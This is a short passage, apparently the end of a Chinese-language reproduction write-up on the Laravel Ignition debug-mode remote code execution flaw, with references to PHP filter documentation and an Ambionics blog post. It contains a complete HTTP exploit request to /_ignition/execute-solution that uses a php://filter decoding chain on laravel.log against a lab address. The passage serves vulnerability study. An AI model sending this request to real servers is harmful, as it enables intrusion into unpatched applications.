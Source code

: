 filter 链留下唯一payload

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 285
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/var/www/storage/logs/laravel.log", "variableName": "doesnotexist"}}
```

![image-20220211175927317](LaravelDebugModRCE.assets/image-20220211175927317.png)  



### References

[php convert.* filters doc](https://www.php.net/manual/en/filters.convert.php)

https://www.ambionics.io/blog/laravel-debug-rce

